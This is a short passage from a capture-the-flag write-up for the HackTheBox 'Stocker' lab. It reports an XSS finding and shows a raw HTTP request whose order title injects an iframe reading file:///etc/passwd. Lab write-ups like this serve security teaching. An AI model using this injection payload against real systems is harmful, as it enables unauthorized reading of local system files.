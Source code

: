 ![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Stocker/images/IMG4.png?raw=true)

We see that we have xss. 

```
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 162
Connection: close
Cookie: connect.sid=s%3AzZ5bv6pSMJi52yO9jH3sIliGNK5DfAnO.F%2BmMLf09fnL7xSjIcDNgxO3JhU6dPEXunSZzKOldnBc

{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<iframe src="file:///etc/passwd" width="1000" height="1000">","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```
